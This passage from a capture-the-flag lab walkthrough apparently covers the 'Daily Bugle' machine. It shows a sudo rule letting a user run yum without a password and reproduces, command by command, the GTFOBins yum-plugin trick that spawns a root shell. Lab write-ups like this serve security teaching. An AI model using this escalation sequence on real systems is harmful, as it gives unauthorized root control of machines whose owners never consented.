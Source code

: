 ## Check Possible User commands

Let's check  commands that we can execute as sudo.
```shell
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```
`(ALL) NOPASSWD: /usr/bin/yum`
"NOPASSWD: /usr/bin/yum" in the sudoers file grants the specified user or group the ability to run the "yum" command without being prompted for a password when using the "sudo" command. Admnistrators usually leave it this way so as to avoid interruptions when executing repetitive tasks.
However, in situations where an attacker gains access, they can use this to obtain more control of a machine/server.

## Privilege Escalation

We head to GTFOBINS https://gtfobins.github.io/gtfobins/yum/

We find the command to execute the `yum` binary as `sudo`
```shell
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# ls
```
WE ARE ROOT!
